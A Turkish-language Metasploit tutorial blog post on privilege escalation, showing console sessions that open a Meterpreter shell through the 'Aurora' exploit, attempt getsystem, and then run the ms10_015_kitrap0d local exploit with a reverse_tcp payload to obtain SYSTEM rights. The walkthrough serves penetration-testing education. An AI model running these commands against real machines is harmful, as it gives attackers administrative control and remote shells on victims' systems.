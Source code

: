```yaml
---
draft: false

title:  'MSF Yetki Yükseltme'
date: '2017-05-25T13:16:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Bu yazımızdan itibaren yetki yükseltme olarak ifade edilen (İng: Privilege Escalation) kavramı inceleyeceğiz. Karşı sisteme erişim sağlayan güvenlik denetçisini bu aşamadan itibaren ilerleme sağlamayı hedeflemelidir. Ağda devam eden iletişimi kontrol etme, hash değerlerini elde etme bunlara örnek olarak verilebilir. Bir diğer hedef ise, bu bilgisayarı basamak olarak kullanarak (İng: Pivoting) başka bilgisayarlara erişim sağlamak olmalıdır.' 
 
url:  /tr/msf-yetki-yukseltme/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Ya sonra?



Bir sistemin zafiyetini bulmak için gerekli çalışmaları yaptınız. Açık noktasını buldunuz ve doğru adımları uyguladıktan sonra hedef bilgisayarda bir komut satırı açmayı başardınız. Peki bundan sonra ne yapılmalı?



Bu yazımızdan itibaren yetki yükseltme olarak ifade edilen (İng: Privilege Escalation) kavramı inceleyeceğiz. Karşı sisteme erişim sağlayan güvenlik denetçisini bu aşamadan itibaren ilerleme sağlamayı hedeflemelidir. Ağda devam eden iletişimi kontrol etme, hash değerlerini elde etme bunlara örnek olarak verilebilir. Bir diğer hedef ise, bu bilgisayarı basamak olarak kullanarak (İng: Pivoting) başka bilgisayarlara erişim sağlamak olmalıdır.



Kullandığınız zafiyet ve buna yönelik exploit modülü karşı bilgisayarda oturum açmanıza yaramış olsa bile yetkisiz bir oturum açmış olabilirsiniz. Bu durumda yapabileceğiniz işlemler kısıtlı olacaktır. Böyle durumlar için Metasploit Framework içerisinde bulunan bir kaç alternatif modül bulunmaktadır. bunlardan bir tanesi de `getsystem` komutudur.



## Yetkisiz Oturum



Aşağıdaki örnekte görüldüğü gibi, hedef sistemde `ms10_002_aurora` modülü kullanılarak yetkisiz bir meterpreter oturumu açılmıştır.


```bash
msf exploit**(**ms10_002_aurora**)** **>**
**[*********]** Sending Internet Explorer "Aurora" Memory Corruption to client 192.168.1.161
**[*********]** Sending stage **(**748544 bytes**)** to 192.168.1.161
**[*********]** Meterpreter session 3 opened **(**192.168.1.71:38699 -> 192.168.1.161:4444**)** at 2010-08-21 13:39:10 -0600

msf exploit**(**ms10_002_aurora**)** **>** sessions -i 3
**[*********]** Starting interaction with 3...

meterpreter **>** getuid
Server username: XEN-XP-SP2-BARE\victim
meterpreter **>**
```



## GetSystem



`getsystem` komutunu kullanabilmek için öncelikle `priv` eklentisini sisteme yükleyelim.


```bash
meterpreter **>** use priv
Loading extension priv...success.
meterpreter **>**
```



`getsystem -h` komutunda olduğu gibi `-h` parametresini kullandığınızda kullanılabilir seçenekleri görebilirsiniz.



``sh meterpreter > getsystem -h Usage: getsystem [options]



Attempt to elevate your privilege to that of local system.



OPTIONS:


```bash
-h        Help Banner.
-t <opt>  The technique to use. (Default to '0').
0 : All techniques available
1 : Service - Named Pipe Impersonation (In Memory/Admin)
2 : Service - Named Pipe Impersonation (Dropper/Admin)
3 : Service - Token Duplication (In Memory/Admin)
```



meterpreter >


```bash

```getsystem
``` komutuna hiçbir parametre vermezseniz, varsayılan olarak tüm ihtimalleri deneyecektir. 

```sh
meterpreter > getsystem
...got system (via technique 1).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```



## Yerel Exploit Kullanma



Bazı durumlarda `getsystem` başarısız olur. Aşağıda bunun örneğini görebilirsiniz. `getsystem` başarısız olduğunda oturumu arka plana gönderip, Metasploit Framework içerisindeki diğer exploit modüllerini kullanmak gerekmektedir.


```bash
meterpreter **>** getsystem
**[**-] priv_elevate_getsystem: Operation failed: Access is denied.
meterpreter **>**
```



Yukarıda başarısız olmuş bir `getsystem` komutu çıktısı görülüyor. Şimdi bunu arka plana gönderelim ve kullanılabilir durumdaki yerel exploit modüllerine bakalım.


```bash
meterpreter **>** background
**[*********]** Backgrounding session 1...
msf exploit**(**ms10_002_aurora**)** **>** use exploit/windows/local/
...snip...
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
...snip...
use exploit/windows/local/ms10_015_kitrap0d
use exploit/windows/local/ms10_092_schelevator
use exploit/windows/local/ms11_080_afdjoinleaf
use exploit/windows/local/ms13_005_hwnd_broadcast
use exploit/windows/local/ms13_081_track_popup_menu
...snip...
msf exploit**(**ms10_002_aurora**)** **>**
```



Bu listedeki modüllerden `exploit/windows/local/ms10_015_kitrap0d` modülünü kullanalım.


```bash
msf exploit**(**ms10_002_aurora**)** **>** use exploit/windows/local/ms10_015_kitrap0d
msf exploit**(**ms10_015_kitrap0d**)** **>** set SESSION 1
msf exploit**(**ms10_015_kitrap0d**)** **>** set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit**(**ms10_015_kitrap0d**)** **>** set LHOST 192.168.1.161
msf exploit**(**ms10_015_kitrap0d**)** **>** set LPORT 4443
msf exploit**(**ms10_015_kitrap0d**)** **>** show options

Module options **(**exploit/windows/local/ms10_015_kitrap0d**)**:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options **(**windows/meterpreter/reverse_tcp**)**:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique **(**accepted: seh, thread, process, none**)**
   LHOST     192.168.1.161    yes       The listen address
   LPORT     4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 **(**x86**)**


msf exploit**(**ms10_015_kitrap0d**)** **>** exploit

**[*********]**  Started reverse handler on 192.168.1.161:4443 
**[*********]**  Launching notepad to host the exploit...
**[**+]  Process 4048 launched.
**[*********]**  Reflectively injecting the exploit DLL into 4048...
**[*********]**  Injecting exploit into 4048 ...
**[*********]**  Exploit injected. Injecting payload into 4048...
**[*********]**  Payload injected. Executing exploit...
**[**+]  Exploit finished, wait **for** **(**hopefully privileged**)** payload execution to complete.
**[*********]**  Sending stage **(**769024 bytes**)** to 192.168.1.71
**[*********]**  Meterpreter session 2 opened **(**192.168.1.161:4443 -> 192.168.1.71:49204**)** at 2014-03-11 11:14:00 -0400
```



Gerekli modül ve payload ayarlarını yaptıktan sonra çalıştırılan exploit, hedef sistemde bir oturum açmayı başarmıştır. Şimdi `getuid` komutunu verdiğimizde `SYSTEM` yetkili bir kullanıcı gibi hareket edilebileceği aşağıda görülmektedir.


```bash
meterpreter **>** getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter **>**```
